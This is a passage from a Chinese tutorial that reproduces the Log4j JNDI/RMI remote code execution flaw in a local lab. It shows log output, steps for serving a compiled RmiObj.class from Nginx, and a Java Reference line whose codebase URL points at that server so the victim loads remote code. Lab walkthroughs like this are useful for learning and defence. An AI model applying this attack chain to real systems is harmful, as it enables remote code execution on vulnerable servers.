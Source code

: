 可以看到在log4j-rmi模块中的RmiServer类中，创建Reference对象时传递的参数与在log4j-all的RmiServer类中创建Reference对象时传递的参数不同。在RmiServer类中创建Reference对象时传递的参数是RmiObj的全类名，而这里传递的是简单类名。细心的读者应该已经发现了，我在log4j-rmi模块中将RmiObj类和RmiServer类都移动到了java目录下，并没有创建Java包。

### 第一次运行程序模拟真实场景

（1）启动log4j-rmi模块下的RmiServer类，会打印出如下日志信息。

```bash
RMI Listener 1099 port
```

说明RMI服务启动成功，并监听了1099端口。

（2）运行log4j-website模块下的Log4jDemo类，输出的日志信息如下所示。

```bash
12:44:23.021 [main] INFO  io.binghe.log4j.Log4jDemo - 输出的信息是:Reference Class Name: RmiObj
```

可以看到，在log4j-website模块下的Log4jDemo类中并没有打印出log4j-rmi模块下的RmiObj类中static静态代码块中输出的信息。

**也就是说，远程站点不会执行骇客本地的代码，真实环境不存在这个漏洞？答案是非也，真实环境也存在远程代码执行漏洞。**

### 改造log4j-rmi模块代码

（1）到链接http://nginx.org/en/download.html下载一个Nginx，这里我下载的是Windows版本的Nginx，版本号是1.22.0，如下所示。

![2022-05-30-010](https://binghe.gitcode.host/assets/images/hack/log4j/2022-05-30-010.png)

（2）将下载后的Nginx进行解压，这里，我将Nginx解压到我本地电脑的D盘下的`Nginx/nginx-1.22.0`目录下，如下所示。

![2022-05-30-011](https://binghe.gitcode.host/assets/images/hack/log4j/2022-05-30-011.png)

（3）使用Maven编译log4j-demo整体功能，找到编译后的log4j-rmi模块下的`target/classes`目录下的RmiObj.class文件，如下所示。

![2022-05-30-012](https://binghe.gitcode.host/assets/images/hack/log4j/2022-05-30-012.png)

（4）将编译后的log4j-rmi模块下的`target/classes`目录下的RmiObj.class文件复制到Nginx的html目录下，如下所示。

![2022-05-30-013](https://binghe.gitcode.host/assets/images/hack/log4j/2022-05-30-013.png)

复制后的效果如下所示。

![2022-05-30-014](https://binghe.gitcode.host/assets/images/hack/log4j/2022-05-30-014.png)

（5）双击Nginx目录下nginx.exe文件启动Nginx，如下所示。

![2022-05-30-015](https://binghe.gitcode.host/assets/images/hack/log4j/2022-05-30-015.png)

（6）修改log4j-rmi模块下的RmiServer类的代码，将创建Reference对象时，调用Reference类的构造方法的第三个参数修改成`http://127.0.0.1:80/`，如下所示。

```java
Reference reference = new Reference("RmiObj", "RmiObj", "http://127.0.0.1:80/");
```

上述代码表示创建Reference类时，加载了Nginx下的RmiObj.class文件中的RmiObj类。

